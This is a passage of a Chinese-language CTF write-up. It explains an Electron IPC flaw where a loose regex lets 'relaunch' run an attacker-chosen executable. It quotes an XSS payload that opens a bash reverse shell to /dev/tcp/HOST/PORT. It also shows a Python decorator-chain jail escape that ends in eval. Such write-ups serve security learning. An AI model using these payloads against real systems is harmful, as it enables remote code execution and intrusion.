 ``` js

ipcMain.on("RELaction", (_e, action, args)=>{
  //if(["RELbuy", "RELsell", "RELinfo"].includes(action)){
  if(/^REL/i.test(action)){
    app[action](...args)  
  }else{
    // ?? 
  }
})
```

看起來沒什麼用，因為那些方法都沒實作。

但重點是你送 `relaunch` 的指令進去也會 match 到，所以你可以執行 [app.relaunch](https://www.electronjs.org/de/docs/latest/api/app#apprelaunchoptions)，在 relaunch 的時候可以指定執行檔位置，就可以 RCE。

DC 裡面 zeyu2001 提供的 payload：

```js
{
  "houseId":"...",
  "token":"...",
  "message":"<img src=x onerror=\"window.api.invoke('relaunch',{execPath: 'bash', args: ['-c', 'bash -i >& /dev/tcp/HOST/PORT 0>&1']})\">",
  "price":""
 }
```

Sudistark 的 writeup：https://github.com/Sudistark/CTF-Writeups/blob/main/2022/Hack.lu/babyelectron.md

## Culinary Class Room(6 solves)

這題限制你只能幫一個 class 加上最多 250 個 decorators，而且不能有參數，目標是要能夠執行任意程式碼拿到 flag。

作者的解法是找到一個 list 然後往裡面 push 很多數字，最後丟到 bytes 以後再丟到 eval 去執行，例如說以下程式碼會往 `copyright._Printer__filenames` push 112 這個數字

```py
@copyright._Printer__filenames.append
@memoryview.__basicsize__.__sub__
@staticmethod.__basicsize__.__mul__
@object.__instancecheck__
class a:pass
```

底下是來自 Arusekk 在 DC 貼的 payload：

```python
@print
@list
@eval
@bytes
@copyright._Printer__filenames.__add__
@list
@str.encode
@chr
@len
@StopAsyncIteration.__doc__.format
@copyright._Printer__filenames.append
@len
@OSError.__doc__.format
@copyright._Printer__filenames.append
@len
@len.__doc__.format
@copyright._Printer__filenames.extend
@str.encode
@int.real.__name__.strip
```
